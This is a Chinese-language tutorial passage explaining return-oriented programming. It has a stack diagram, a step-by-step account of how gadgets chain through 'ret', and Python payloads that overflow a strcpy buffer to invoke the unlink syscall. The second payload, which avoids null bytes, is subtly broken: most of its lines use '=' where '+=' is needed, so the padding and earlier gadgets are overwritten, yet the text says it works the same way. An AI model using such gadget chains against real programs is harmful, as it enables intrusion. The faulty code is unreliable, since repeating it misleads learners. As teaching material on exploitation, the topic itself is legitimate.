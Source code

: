 
## ROP 原理 
假设我们有如下栈布局：
```
|---------------|                           gadget1: pop eax; ret;
|---------------|                           gadget2: pop ebx; ret;
|- 'data' addr -|
|-gadget2 addr -|                           
|     0xa       |
|-gadget1 addr -|<----- esp
|---------------|
|---------------|
```
gadget1和gadget2是代码段中以`ret`结尾的代码片段，其中`gadget1 address`是它们的地址。

1. 在函数执行到`ret`指令时，`esp`指向当前的返回地址。  
2. 当返回地址被覆盖为`gadget1 address`，程序执行`ret`会跳转到`gadget1: pop eax; ret;`并执行，并且`esp`加4指向`0xa`内容。  
3. 执行`pop eax`指令，也就是将`esp`指向的数据放入`eax`中，并且`esp`加4， 此时`esp`指向`gadget2 address`。  
4. 继续执行`ret`指令，`esp`指向`gadget2 address`即跳转到`gadget2: pop ebx; ret;`并执行。如此完成gadget链的链接过程。
5. 接下来gadget执行和链接如上述过程`3 -> 4`。

## 构造gadget链
### ROP gadget
首先我们想要进行`unlink`系统调用，我们需要对`eax`，`ebx`寄存器进行赋值操作。  
那么我们可以构造如下gadget：
```python
offset = 0xff
p = 'A' * offset        # ret_addr之前的填充
p += pop_eax_addr       # pop eax; ret;
p += 0xa                # unlink系统调用号
p += pop_ebx_addr       # pop ebx; ret;
p += data_addr          # 'data'字符串的地址
p += int_0x80           # int 0x80;
```
但是，在`strcpy`函数的使用时，遇到`\0, \n, \t`会被认作结束符，因此在我们的payload中不能存在这些字符。例如在上述payload中，0xa在内存中的表示为`0x0a 0x00 0x00 0x00`，所以要进行修改。  
修改gadget为：
```python
offset = 0xff
p = 'A' * offset        # ret_addr之前的填充
p = xor_eax_addr        # xor eax, eax; ret
p = inc_eax_addr        # inc eax; ret;
p = inc_eax_addr        # inc eax; ret;
p = inc_eax_addr        # inc eax; ret;
p = inc_eax_addr        # inc eax; ret;
p = inc_eax_addr        # inc eax; ret;
p = inc_eax_addr        # inc eax; ret;
p = inc_eax_addr        # inc eax; ret;
p = inc_eax_addr        # inc eax; ret;
p = inc_eax_addr        # inc eax; ret;
p = inc_eax_addr        # inc eax; ret;
p += pop_ebx_addr       # pop ebx; ret;
p += data_addr          # 'data'字符串的地址
p += int_0x80           # int 0x80;
```
该gadget可以达到同样的效果。
